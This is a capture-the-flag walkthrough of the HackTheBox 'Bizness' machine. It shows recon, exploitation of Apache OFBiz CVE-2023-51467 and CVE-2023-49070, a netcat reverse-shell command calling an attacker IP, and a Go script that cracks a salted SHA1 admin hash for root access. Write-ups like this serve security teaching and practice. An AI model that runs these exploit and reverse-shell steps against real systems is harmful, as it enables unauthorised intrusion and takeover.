





# Overview
- Machine: **Bizness**
- OS: **Linux**
- Difficulty: **<span style="color:green">Easy</span>**
- Vulnerabilities: **Authentication Bypass** 

---
# User flag
## Reconnaissance

#### Port scan
To start, we need to identify all the ports that is running on the target machine. We can use the following Nmap command:</br>
```bash
nmap -sV -sC 10.10.11.252 -p- -vv -oA nmap/port_scan

PORT     STATE    SERVICE  REASON      VERSION
22/tcp   open     ssh      syn-ack     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
80/tcp   open     http     syn-ack     nginx 1.18.0
443/tcp  open     ssl/http syn-ack     nginx 1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
```
:::note
As we know about *bizness.htb* now we can put it on our _/etc/hosts_ file.
:::

Opening the website we got the folowing page:


#### Directory brute force
I immediately have ran _fuff_ with the wordlist _common.txt_ from [seclist](https://github.com/danielmiessler/SecLists) to see if are any hidden directories on the page:</br>
```bash
ffuf -u https://bizness.htb/FUZZ seclists/Discovery/Web-Content/common.txt
------------------------
control         [Status: 200, Size: 34633, Words: 10468]
index.html      [Status: 200, Size: 27200, Words: 92189]
```
And accessing the _'/control'_ page we get the following error message:



## Exploitation
Knowing about **Apache OFBiz** I started looking for public exploit and CVEs and eventually I got on this github repo:
::github{repo='jakabakos/Apache-OFBiz-Authentication-Bypass'}
### How it works
The exploit takes advantage of two vulnerabilities of this apache OFZiz version: 

- **CVE-2023-51467**: Is a **Authentication Bypass** that consist in add `?USERNAME=&PASSWORD=&requirePasswordChange=Y.` in the end of the URL and the login fuction of Apache OFBiz will bug and think you are authenticated on the application. If you want more in details about it works check out [Sonic Wall blog post](https://blog.sonicwall.com/en-us/2023/12/sonicwall-discovers-critical-apache-ofbiz-zero-day-authbiz/) about it.

- **CVE-2023-49070**: Is a **Authenticated Java Deserialization** bug on the endpoint `/webtools/control/xmlrpc/`.

The exploit I found actually uses [ysoserial](https://github.com/frohoff/ysoserial) to generate the serialized data.Configuring the java enviroment to work properly can be complex, so I recommend running it mannually in a docker container. Luckily, the exploit worked in my environment and I got a **reverse shell** with the follow command: 
```bash
python3 exploit.py --url https://bizness.htb/ --cmd 'nc -e /bin/sh 10.10.14.27 443'
```


:::note
After getting the reverse shell I run the classics commands to get stty working on zsh
shell: 
```bash
python3 -c 'import pty;pty.spawn("/bin/bash") 
<CTRL Z>
stty raw -echo;fg
<ENTER>
```
:::

# Privilege escation

## Reconnaissance

Once I got the shell, I started enumerating the machine with the following commands:
```bash
ss -ltnp # Show the listening ports on the host
sudo -l # Check for sudo privileges (note: password require)
```

Next, I searched for passwords in Apache OFBiz configuration files but without success.Eventually, I found a file named _docker/docker-entrypoint.sh_ which contained the following code that generates a **SHA1 hash**:

```bash
load_admin_user() {
  if [ ! -f "$CONTAINER_ADMIN_LOADED" ]; then
    TMPFILE=$(mktemp)

    # Concatenate a random salt and the admin password.
    SALT=$(tr --delete --complement A-Za-z0-9 </dev/urandom | head --bytes=16)
    SALT_AND_PASSWORD="${SALT}${OFBIZ_ADMIN_PASSWORD}"

    # Take a SHA-1 hash of the combined salt and password and strip off any additional output form the sha1sum utility.
    SHA1SUM_ASCII_HEX=$(printf "$SALT_AND_PASSWORD" | sha1sum | cut --delimiter=' ' --fields=1 --zero-terminated | tr --delete '\000')

    # Convert the ASCII Hex representation of the hash to raw bytes by inserting escape sequences and running
    # through the printf command. Encode the result as URL base 64 and remove padding.
    SHA1SUM_ESCAPED_STRING=$(printf "$SHA1SUM_ASCII_HEX" | sed -e 's/\(..\)\.\?/\\x\1/g')
    SHA1SUM_BASE64=$(printf "$SHA1SUM_ESCAPED_STRING" | basenc --base64url --wrap=0 | tr --delete '=')

    # Concatenate the hash type, salt and hash as the encoded password value.
    ENCODED_PASSWORD_HASH="\$SHA\$${SALT}\$${SHA1SUM_BASE64}"

    # Populate the login data template
    sed "s/@userLoginId@/$OFBIZ_ADMIN_USER/g; s/currentPassword=\".*\"/currentPassword=\"$ENCODED_PASSWORD_HASH\"/g;" framework/resources/templates/AdminUserLoginData.xml >"$TMPFILE"

    # Load data from the populated template.
    /ofbiz/bin/ofbiz --load-data "file=$TMPFILE"

    rm "$TMPFILE"

    touch "$CONTAINER_ADMIN_LOADED"
  fi
}
```

:::note
The code essentially generates a **SALT**, concatenate it with the **PASSWORD**, hashes the result using `sha1sum`, and encode it again using base64 for URLs. Finally, it save the encoded password in the format: `$SHA${SALT}{SHA1}`.
:::

## Exploitation

After learning about the hash, I used this command `grep -r '$SHA` to see if the hash existed on the machine. The command returned some files inside the directory _/runtime/data/derby/ofbiz/seg0/_. Navigating to this directory, I found many _.dat_ files (probally database files), So I used `strings` and `grep` commands to extract the hash. 



## Cracking the hash

The easy option would by to manually decode the base64-encoded password and provide the SALT and HashType to John or Hashcat. However, to improving my Go skills, I coded the following script to crack the hash:

```go
package main

import (
	"bufio"
	"crypto/sha1"
	"encoding/base64"
	"encoding/hex"
	"fmt"
	"os"
	"strings"
)

const salt = "d"

const HASH = "uP0_QaVBpDWFeo8-dRzDqRwXQ2I"

func main() {

	//Read the wordlist file
	worlist_file := "/usr/share/wordlists/rockyou.txt"
	wordlist, _ := os.Open(worlist_file)
	scanner := bufio.NewScanner(wordlist)
    defer wordlist.Close()

	for scanner.Scan() {

        // Use sha1sum on the Salt and password
		hash := sha1.New()
		hash.Write([]byte(salt))
		hash.Write([]byte(scanner.Text()))
		sha1_pass := hash.Sum(nil)

        // Base64 encode it and remove the '=' charactes at the end. 
		found_hash := strings.TrimRight(base64.URLEncoding.EncodeToString(sha1_pass), "=")

        // Check if the Hash we got matches the hash we are searching for.
		if found_hash == HASH {
			fmt.Println("Found: ", scanner.Text())
            break
		}
	}

}

```
running the above code with `go run ./main.go` will eventually give us the right password as showing in the following screenshot:


:::warning
This code works but have some compabilities problems. For example, if the password contains the character '%', the `printf` function in bash (docker-entrypoint.sh) will interpret it, but your go script won't, so we will never found the password.
:::

With the cracked password, we can log in as root:</br>
`su root`



With root access, we can read the contest of `/root/root.txt` file and complete the CTF challenge.
